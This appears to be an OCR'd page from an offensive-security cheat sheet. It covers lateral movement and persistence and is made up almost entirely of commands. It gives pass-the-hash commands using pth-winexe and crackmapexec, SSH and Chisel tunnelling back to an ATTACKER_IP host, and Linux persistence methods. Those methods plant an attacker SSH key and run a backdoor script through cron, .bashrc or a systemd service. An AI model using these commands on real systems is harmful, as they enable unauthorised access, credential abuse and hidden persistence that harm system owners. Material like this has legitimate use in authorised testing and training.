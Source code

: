 
## Lateral Movement

### Pass the Hash
```bash
# Using pth-winexe
pth-winexe -U domain/user%hash //target.com cmd

# Using crackmapexec
crackmapexec smb target.com -u user -H hash
```

### SSH Tunneling
```bash
# Local port forwarding
ssh -L 8080:localhost:80 user@target.com

# Dynamic port forwarding (SOCKS proxy)
ssh -D 1080 user@target.com

# Remote port forwarding
ssh -R 8080:localhost:80 user@target.com
```

### Port Forwarding with Chisel
```bash
# On attacker machine
./chisel server -p 8000 --reverse

# On target machine
./chisel client ATTACKER_IP:8000 R:1080:socks
```

---

## Persistence

### Linux Persistence
```bash
# SSH keys
mkdir ~/.ssh
echo "YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Cron job
crontab -e
@reboot /path/to/backdoor.sh

# Bash profile
echo "/path/to/backdoor.sh &" >> ~/.bashrc

# Service
# Create malicious service in /etc/systemd/system/
```
